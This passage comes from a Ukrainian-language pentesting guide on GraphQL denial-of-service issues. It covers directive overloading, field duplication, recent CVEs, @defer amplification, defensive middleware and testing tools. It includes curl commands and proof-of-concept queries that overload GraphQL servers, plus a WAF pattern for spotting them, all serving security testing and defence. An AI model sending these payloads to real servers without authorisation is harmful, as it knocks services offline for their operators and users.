**Directive Overloading** виникає, коли GraphQL-сервер дозволяє запити з надмірною кількістю повторюваних директив. Це може перевантажити парсер і виконавець сервера, особливо якщо сервер знову й знову обробляє ту саму логіку директив. Без належної перевірки або обмежень зловмисник може скористатися цим, сформувавши запит із численними повторюваними директивами, щоб спричинити високе навантаження на обчислювальні ресурси чи пам’ять і призвести до **Denial of Service (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```

Зверніть увагу, що в попередньому прикладі `@aa` — це користувацька директива, яка **може бути не оголошена**. Поширена директива, яка зазвичай існує, — **`@include`**:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```

Також можна надіслати introspection query, щоб виявити всі оголошені директиви:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```

І потім **використайте деякі власні**.

### **Вразливість Field Duplication**

**Field Duplication** — це вразливість, за якої сервер GraphQL дозволяє надмірно повторювати одне й те саме поле в запитах. Через це сервер повторно обробляє поле для кожного його екземпляра, витрачаючи значні ресурси (CPU, пам’ять і виклики до бази даних). Зловмисник може створювати запити із сотнями або тисячами повторюваних полів, спричиняючи високе навантаження та потенційно призводячи до **відмови в обслуговуванні (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```

## Нещодавні вразливості (2023-2025)

> Екосистема GraphQL дуже швидко розвивається; за останні два роки було розкрито кілька критичних проблем у найпоширеніших серверних бібліотеках. Тому, виявивши endpoint GraphQL, варто визначити рушій (див. **graphw00f**) і перевірити версію, що використовується, на наявність наведених нижче вразливостей.

### CVE-2024-47614 – DoS через перевантаження директивами в `async-graphql` (Rust)
* Вразливі версії: async-graphql < **7.0.10** (Rust)
* Першопричина: відсутність обмеження на **дубльовані директиви** (наприклад, тисячі `@include`), які розгортаються в експоненційну кількість вузлів виконання.
* Вплив: один HTTP-запит може вичерпати ресурси CPU/RAM і призвести до збою сервісу.
* Виправлення/захист: оновіть версію до ≥ 7.0.10 або викличте `SchemaBuilder.limit_directives()`; як альтернатива, фільтруйте запити правилом WAF, наприклад `"@include.*@include.*@include"`.<sup>[[7]](#references)</sup>

```graphql
# PoC – repeat @include X times
query overload {
  __typename @include(if:true) @include(if:true) @include(if:true)
}
```

### CVE-2024-40094 – `graphql-java` обхід обмежень глибини/складності через ENF
* Уражені версії: graphql-java < 19.11, 20.0-20.8, 21.0-21.4
* Першопричина: **ExecutableNormalizedFields** не враховувалися інструментами `MaxQueryDepth` / `MaxQueryComplexity`. Тому рекурсивні фрагменти обходили всі обмеження.
* Вплив: неавтентифікований DoS проти Java-стеків, у яких вбудовано graphql-java (Spring Boot, Netflix DGS, продукти Atlassian…).

```graphql
fragment A on Query { ...B }
fragment B on Query { ...A }
query { ...A }
```

### CVE-2023-23684 – ланцюжок SSRF до RCE у WPGraphQL
* Вразливі версії: WPGraphQL ≤ 1.14.5 (плагін WordPress).
* Першопричина: mutation `createMediaItem` приймала контрольовані зловмисником URL у **`filePath`**, що дозволяло доступ до внутрішньої мережі та запис файлів.
* Вплив: автентифіковані редактори/автори могли звертатися до кінцевих точок metadata або записувати PHP-файли для віддаленого виконання коду.

### CVE-2025-32031 – DoS через розгалуження фрагментів у query-planner Apollo Gateway
* Вразливі версії: `@apollo/gateway` < **2.10.1**
* Першопричина: **глибоко вкладені й інтенсивно повторно використовувані іменовані фрагменти** можуть обходити внутрішні оптимізації query-planner, через що gateway витрачає більшу частину часу CPU на **планування** запиту, перш ніж той узагалі досягне субграфів.
* Вплив: невелика кількість неавтентифікованих запитів може вивести з ладу **федеративний gateway**, навіть якщо перевірки глибини/складності resolver на субграфах працюють належним чином.
* Підказка для тестування: під час black-box тестів звертайте увагу на високу затримку / стрибки навантаження CPU gateway за майже повної відсутності відповідного трафіку до субграфів. Вузьке місце — planner, а не resolver.

```graphql
fragment F2 on Query { __typename }
fragment F1 on Query { ...F2 ...F2 }
fragment F0 on Query { ...F1 ...F1 }
query { ...F0 }
```

---

## Зловживання інкрементальною доставкою: `@defer` / `@stream`
Починаючи з 2023 року більшість основних серверів (Apollo 4, GraphQL-Java 20+, HotChocolate 13) реалізували директиви **інкрементальної доставки**, визначені GraphQL-over-HTTP WG. Кожен відкладений фрагмент надсилається як **окремий chunk**, тому загальний розмір відповіді стає *N + 1* (обгортка + фрагменти). Запит із тисячами крихітних відкладених полів створює велику відповідь, тоді як зловмиснику потрібен лише один запит — це класична **DoS-атака з посиленням** і спосіб обійти правила WAF щодо розміру тіла запиту, які перевіряють лише перший chunk. Учасники WG самі вказали на цей ризик.

Приклад payload, що створює 2 000 фрагментів:

```graphql
query abuse {
% for i in range(0,2000):
  f{{i}}: __typename @defer
% endfor
}
```

Mitigation: вимкніть `@defer/@stream` у production або встановіть обмеження `max_patches`, сукупного `max_bytes` і часу виконання. Бібліотеки на кшталт **graphql-armor** (див. нижче) вже встановлюють розумні значення за замовчуванням.

---

## Захисне middleware (2024+)

| Project | Notes |
|---|---|
| **graphql-armor** | Middleware валідації для Node/TypeScript, опубліковане Escape Tech. Реалізує готові до використання обмеження глибини запитів, кількості alias/полів/директив, токенів і вартості; сумісне з Apollo Server, GraphQL Yoga/Envelop, Helix тощо. |

Швидкий старт:

```ts
import { protect } from '@escape.tech/graphql-armor';
import { applyMiddleware } from 'graphql-middleware';

const protectedSchema = applyMiddleware(schema, ...protect());
```

`graphql-armor` тепер блокуватиме надто глибокі, складні запити або запити з великою кількістю директив, захищаючи від наведених вище CVE.<sup>[[8]](#references)</sup>

---

## Інструменти

### Сканери вразливостей

- [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): Перевіряє типові неправильні конфігурації кінцевих точок graphql
- [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): Скрипт для аудиту безпеки GraphQL, зосереджений на виконанні пакетних GraphQL-запитів і мутацій.
- [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): Визначає, який graphql використовується
- [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): Набір інструментів для отримання схем і пошуку конфіденційних даних, перевірки авторизації, brute force схем і пошуку шляхів до заданого типу.
- [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): Можна використовувати окремо або як [розширення Burp](https://github.com/doyensec/inql).
- [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): Також можна використовувати як CLI-клієнт для автоматизації атак: `python3 graphqlmap.py -u http://example.com/graphql --inject`
- [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): Інструмент, який перелічує різні способи **досягнення заданого типу у схемі GraphQL**.
- [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): Наступник автономного та CLI-режимів InQL
- [https://github.com/doyensec/inql](https://github.com/doyensec/inql): Розширення Burp або скрипт Python для поглибленого тестування GraphQL. _**Scanner**_ — це ядро InQL v5.0, за допомогою якого можна аналізувати кінцеву точку GraphQL або локальний файл схеми introspection. Він автоматично генерує всі можливі запити й мутації та впорядковує їх у структурованому вигляді для аналізу. Компонент _**Attacker**_ дає змогу запускати пакетні GraphQL-атаки, що може бути корисним для обходу неправильно реалізованих обмежень частоти запитів: `python3 inql.py -t http://example.com/graphql -o output.json`
- [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): Намагається отримати схему навіть за вимкненого introspection, використовуючи підказки деяких баз даних GraphQL, які пропонують назви мутацій і параметрів.

### Скрипти для експлуатації типових вразливостей

- [https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS](https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS): Колекція скриптів для експлуатації вразливостей типу denial-of-service у вразливих середовищах graphql.

### Клієнти

- [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): GUI-клієнт
- [https://altair.sirmuel.design/](https://altair.sirmuel.design/): GUI-клієнт

### Автоматичні тести

{{#ref}}
https://graphql-dashboard.herokuapp.com/
{{#endref}}

- Відео з поясненням AutoGraphQL: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## References

- [1] [Практичні вектори атак на GraphQL](https://jondow.eu/practical-graphql-attack-vectors/)
- [2] [GraphQL — типові вразливості та способи їх експлуатації](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [3] [Усе про безпеку GraphQL, модель GraphQL проти REST API](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [4] [Злам API: GraphQL](http://ghostlulz.com/api-hacking-graphql/)
- [5] [Ін’єкція GraphQL — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [6] [Вразливості GraphQL API — PortSwigger](https://portswigger.net/web-security/graphql)
- [7] [Перевантаження директив async-graphql, що призводить до відмови в обслуговуванні (GHSA-5gc2-7c65-8fq8 / CVE-2024-47614)](https://github.com/advisories/GHSA-5gc2-7c65-8fq8)
- [8] [GraphQL Armor](https://github.com/escape-tech/graphql-armor)
- [9] [Вийшов InQL v6.1.0 з новими функціями та подарунками для учасників!](https://blog.doyensec.com/2025/12/02/inql-v610.html)
- [10] [Матриця загроз GraphQL](https://github.com/nicholasaleks/graphql-threat-matrix)
- [11] [Завантаження файлів — GraphQL](https://graphql.org/learn/file-uploads/)
- [12] [Збережені запити — документація Apollo GraphOS](https://www.apollographql.com/docs/graphos/platform/security/persisted-queries)
- [13] [Ми зламали Google A.I. за $50 000](https://www.landh.tech/blog/20240304-google-hack-50000/)
- [14] [Атака з пакетними запитами GraphQL](https://lab.wallarm.com/graphql-batching-attack/)
- [15] [Тестування безпеки GraphQL без схеми](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema)
- [16] [NahamCon2024: GraphQL — це новий PHP | @0xlupin](https://www.youtube.com/watch?v=tIo_t5uUK50)
- [17] [Та сама проблема GraphQL, яку ви постійно пропускаєте](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)
- [18] [Вразливість, що дає змогу обійти автентифікацію за допомогою GraphQL-запиту](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln)
- [19] [Звіт HackerOne #792927 — витік конфіденційних даних облікового запису через змінні GraphQL-запиту](https://hackerone.com/reports/792927)
- [20] [graphql.org — GraphQL: мова запитів для API](https://graphql.org/learn/introspection)
- [21] [Специфікація GraphQL через HTTP](https://graphql.github.io/graphql-over-http/draft/)
- [22] [Пояснення cookies SameSite](https://web.dev/articles/samesite-cookies-explained)
{{#include ../../banners/hacktricks-training.md}}
